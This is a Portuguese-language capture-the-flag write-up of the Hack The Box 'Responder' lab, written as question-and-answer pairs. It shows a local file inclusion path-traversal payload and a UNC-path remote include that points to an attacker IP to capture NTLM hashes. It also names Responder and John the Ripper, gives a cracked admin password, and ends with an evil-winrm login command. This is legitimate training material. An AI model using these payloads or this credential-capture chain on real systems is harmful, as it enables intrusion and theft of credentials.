 # Responder.md

#### Tags
`SAMBA` `Enumeration` `Apache` `WinRM` 

## Questões

1. **Quantas portas TCP estão abertas na máquina?**
_R:_ `3`

2. **Ao visitar o serviço web usando o endereço IP, qual é o dominio para o qual estamos sendo direcionados?**
_R:_ `unika.htb`

3. **Qual a linguagem de script está sendo usada no servidor para gerar páginas da web?**
_R:_ `PHP`

4. **Qual é o nome do parâmetro de URL que é usado para carregar diferentes versões de idioma da página web?**
_R:_ `page`

5. **Qual dos seguintes valores para o parâmetro `page` seria um exemplo de exploração de uma vulnerabilidade de Inclusão de Arquivo Local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
_R:_ `../../. ./../../../../../windows/system32/drivers/etc/hosts`

6. **Qual dos seguintes valores para o parâmetro `page` seria um exemplo de exploração de uma vulnerabilidade Remote File Include (RFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
_R:_ `//10.10.14.6/somefile`

7. **O que significa NTLM?**
_R:_ `new technology lan manager`

8. **Qual sinalizador usamos no utilitário responder para especificar a interface de rede?**
_R:_ `-I`

9. **Existem várias ferramentas que aceitam um desafio/resposta NetNTLMv2 e tentam milhões de senhas para ver se alguma delas gera a mesma resposta. Uma dessas ferramentas é muitas vezes referida como `john`, mas o nome completo é o que?.**
_R:_ `john the ripper`

10. **Qual é a senha do usuário administrador?**
_R:_ `badminton`

11. **Usaremos um serviço do Windows (ou seja, rodando na caixa) para acessar remotamente a máquina do Respondente usando a senha que recuperamos. Em qual porta TCP ele escuta?**
_R:_ `5985`

## **Envie a flag**
*Write-up:*
~~~shell
 evil-winrm -i 10.129.201.88 -u administrator -p badminton
 cd ../../
 cd mike
 cd Desktop
 cat flag.txt
 ∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎
 ~~~
